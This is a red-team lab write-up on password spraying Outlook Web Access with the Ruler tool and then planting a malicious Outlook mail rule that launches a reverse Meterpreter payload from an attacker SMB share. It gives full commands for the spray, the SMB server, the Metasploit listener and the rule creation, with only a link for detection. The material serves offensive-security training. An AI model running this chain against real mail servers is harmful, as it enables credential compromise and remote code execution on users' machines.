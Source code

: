 ```yaml
---
layout: post
title: "password spraying outlook web access remote shell"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /password-spraying-outlook-web-access-remote-shell/
---
```


---
layout: post
title: "password spraying outlook web access remote shell"
date: 2024-06-18
categories: initial-access
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /password-spraying-outlook-web-access-remote-shell/
---

# Password Spraying Outlook Web Access: Remote Shell

## Context

This lab looks at an attacking technique called password spraying as well as abusing Outlook Web Application by exploiting mail rules to get a remote shell using a tool called `Ruler`.

## Defininitions

**Password spraying** is a form of password brute-forcing attack. In password spraying, an attacker (with the help of a tool) cycles through a list of possible usernames (found using OSINT techniques against a target company or other means) with a couple of most commonly used weak passwords.&#x20;

In comparison, a traditional brute-force works by selecting a username from the list and trying all the passwords in the wordlist against that username. Once all passwords are exhausted for that user name, another username is chosen from the list and the process repeats.

Password spraying could be illustrated with the following table:

| User | Password      |
| ---- | ------------- |
| john | Winter2018    |
| ben  | Winter2018    |
| ...  | Winter2018    |
| john | December2018! |
| ben  | December2018! |
| ...  | December2018! |

Standard password brute-forcing could be illustrated with the following table:

| User | Password    |
| ---- | ----------- |
| john | Winter2018  |
| john | Winter2018! |
| john | Password1   |
| ben  | Winter2018  |
| ben  | Winter2018! |
| ben  | Password1   |

## Password Spraying

Let's try doing a password spray against an Exchange 2016 server in a `offense.local` domain:

{% code title="attacker@kali" %}
```csharp
ruler -k --domain offense.local brute --users users --passwords passwords --verbose
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-23 15-09-03.png>)

![](<../../.gitbook/assets/Peek 2018-12-23 15-07.gif>)

The above shows that password spray was successful against the user `spotless` who used a weak password `123456`.

Note, that if you are attempting to replicate this technique in your own labs, you may need to update your `/etc/hosts` to point to your Exchange server:

![](<../../.gitbook/assets/Screenshot from 2018-12-23 15-08-18.png>)

## Getting a Shell via Malicious Email Rule

### Process Overview

If the password spray against an Exchange server was successful and you have obtained valid credentials, you can now leverage `Ruler` to create a malicious email rule to that will gain you remote code execution on the host that checks that compromised mailbox.

A high level overwiew of how the spraying and remote code execution works:

* assume you have obtained working credentials during the spray for the user `spotless@offense.local`
* with the help of `Ruler`, a malicious mail rule is created for the compromised account which in our case is `spotless@offense.local`. The rule created will conform to the format along the lines of:\
  `if emailSubject contains`` `**`someTriggerWord`**_`start`_**`pathToSomeProgram`**
* A new email with subject containing `someTriggerWord` is sent to the `spotless@offense.local`
* User `spotless` logs on to his/her workstation and launches Outlook client to check for new email
* Malicious email comes in and the malicious mail rule is triggered, which in turn starts the program specified in `pathToSomeProgram` which is pointing to a malicious payload giving a reverse shell to the attacker

### Execution

Let's validate the compromised credentials are working by checking if there are any email rules created already:

{% code title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local -u spotless -p 123456  display
```
{% endcode %}

The below suggests the credentials are working and that no mail rules are set for this account yet:

![](<../../.gitbook/assets/Screenshot from 2018-12-23 17-15-36.png>)

To carry out the attack further, I've generated a reverse meterpreter payload and saved it as a windows executable in `/root/tools/evilm64.exe`&#x20;

We now need to create an SMB share that is accessible to our victim host and point it to the location where our payload evilm64.exe is located:

{% code title="attacker@kali" %}
```csharp
smbserver.py tools /root/tools/
```
{% endcode %}

Next, we setup a metasploit listener to catch the incoming reverse shell:

{% code title="attacker@kali" %}
```csharp
use exploit/multi/handler 
set lhost 10.0.0.5
set lport 443
exploit
```
{% endcode %}

Finally, we fire up the ruler and create the malicious email rule:

{% code title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456  add --location '\\10.0.0.5\tools\\evilm64.exe' --trigger "popashell" --name maliciousrule --send --subject popashell
```
{% endcode %}

Below shows the entire attack and all of the steps mentioned above in action - note how the compromised mailbox does not even get to see the malicious email coming in:

![](<../../.gitbook/assets/Peek 2018-12-23 18-13.gif>)

Below shows the actual malicious rule that got created as part of the attack - note the `subject` and the `start` properties - we specified them in the ruler command:

![](<../../.gitbook/assets/Screenshot from 2018-12-23 18-17-10.png>)

If you want to delete the malicious email rule, do this:

{% code title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456 delete --name maliciousrule
```
{% endcode %}

## Detection & Mitigation

{% embed url="https://www.microsoft.com/en-us/microsoft-365/blog/2018/03/05/azure-ad-and-adfs-best-practices-defending-against-password-spray-attacks/" %}

## References

{% embed url="https://github.com/sensepost/ruler/wiki" %}

{% embed url="https://silentbreaksecurity.com/malicious-outlook-rules/" %}

{% embed url="https://labs.mwrinfosecurity.com/blog/malicous-outlook-rules/" %}

{% embed url="https://www.blackhillsinfosec.com/introducing-mailsniper-a-tool-for-searching-every-users-email-for-sensitive-data/" %}

@spotheplanet
